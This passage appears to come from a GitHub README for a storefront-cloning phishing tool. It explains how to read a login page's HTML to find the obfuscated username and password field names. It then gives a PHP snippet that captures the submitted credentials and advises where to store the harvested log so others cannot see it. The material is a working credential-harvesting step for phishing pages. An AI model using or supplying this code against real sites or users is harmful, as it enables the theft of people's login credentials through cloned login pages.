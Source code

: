### Identify the username/password field names
Within our post.php file we are capturing the username and password from the POST so we can append it to a log entry. A common mistake people make is assume the input name is going to be username/password respectively, or they print out the entire POST array, which is ugly. This is where reading the source code will help us out. 

For example, using the below snippet we can see the input field for the username and password and as you see the names are not intuitive. 

```HTML
<input type="text" id="Enter user name" class="prePopulatedCredentials" autocomplete="off" spellcheck="true" name="a1825983723992608" size="30" maxlength="127" width="0" autofocus="" title="Enter user name">

<input type="password" id="passwd" class="prePopulatedCredentials" autocomplete="off" spellcheck="true" name="a7678120670087784" size="30" maxlength="127" width="0" />
```

Using the information we verified, we can test to ensure we are capturing the credentials.

```PHP
<?php
$username = $_POST["a1825983723992608"];
$password = $_POST["a7678120670087784"];
echo "Username: $username | Password: $password";
?>
```
![Alt text](https://github.com/gh0x0st/storefront_cloner/blob/master/Screenshots/post-credentials.png?raw=true "post-credentials")

### Create log file for post.php and assign proper permissions
As I mentioned previously, you should not create your log file in the web root, unless you want someone to snoop in on your results. Just make sure you give www-data permissions to write to the file itself. 

![Alt text](https://github.com/gh0x0st/storefront_cloner/blob/master/Screenshots/capture-txt.png?raw=true "capture-txt")
